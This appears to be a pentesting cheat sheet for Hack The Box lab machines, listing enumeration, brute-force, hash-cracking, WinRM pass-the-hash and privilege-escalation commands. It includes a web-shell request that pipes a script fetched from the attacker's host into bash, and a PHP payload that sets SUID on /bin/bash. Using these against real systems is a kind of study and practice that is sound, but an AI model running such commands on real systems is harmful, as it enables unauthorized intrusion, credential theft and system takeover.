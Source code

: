 ## 🧰 Frequently Used Pentesting Commands

### 🔍 Enumeration
```bash
nmap -sC -sV -p- --min-rate 1000 10.129.54.238 -v
```

### 🌐 Virtual Host & Directory Discovery
```bash
gobuster vhost -w /opt/useful/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb --append-domain
gobuster dir --url http://ignition.htb/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
```

### ☁️ AWS S3 Bucket Enumeration
```bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```

### 🐚 Shell & Reverse Shell
```bash
nc -nvlp 1337
python3 -m http.server 8000
```

### 🪝 Web-based Reverse Shell Execution
```bash
http://thetoppers.htb/shell.php?cmd=curl%<attacking machine ip>:8000/shell.sh|bash
```

### 🕒 Time Synchronization (Useful for Kerberos/AD)
```bash
ntpdate pool.ntp.org  # Sync system clock with NTP server to avoid time skew issues
```

### 🔐 Evil-WinRM Access
```bash
evil-winrm -i administrator.htb -u administrator -H <NTLM_hash>   # Login using NTLM hash
evil-winrm -i administrator.htb -u administrator -p <password>    # Login using password

### 🔓 Cracking Hashes with Hashcat
```bash
# Auto-detect hash mode (not recommended for reliability)
hashcat -a 0 hash.txt /home/kali/Documents/rockyou.txt

# Specified mode (Apache $apr1$ MD5)
hashcat -m 1600 -a 0 hash.txt /home/kali/Documents/rockyou.txt
```

### ⚡ Privilege Escalation via SUID Bash (PHP RCE)
```php
<?php exec("chmod +s /bin/bash"); ?>
```
Then on the target:
```bash
/bin/bash -p  # Run with elevated privileges if SUID is set
```

### 🛠️ Hydra Brute-Force Examples
```bash
# SSH Brute Force
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.129.54.238

# HTTP Basic Auth Brute Force
hydra -L users.txt -P passwords.txt 10.129.54.238 http-get /admin
```

### 📂 FTP Enumeration with Anonymous Login
```bash
# Check FTP banner and anonymous login
ftp 10.129.54.238

# If you see code 230:
# 230 Login successful.
# You have access to browse and download/upload if permitted

# Listing files
ls

# Downloading a file
get filename.txt
```
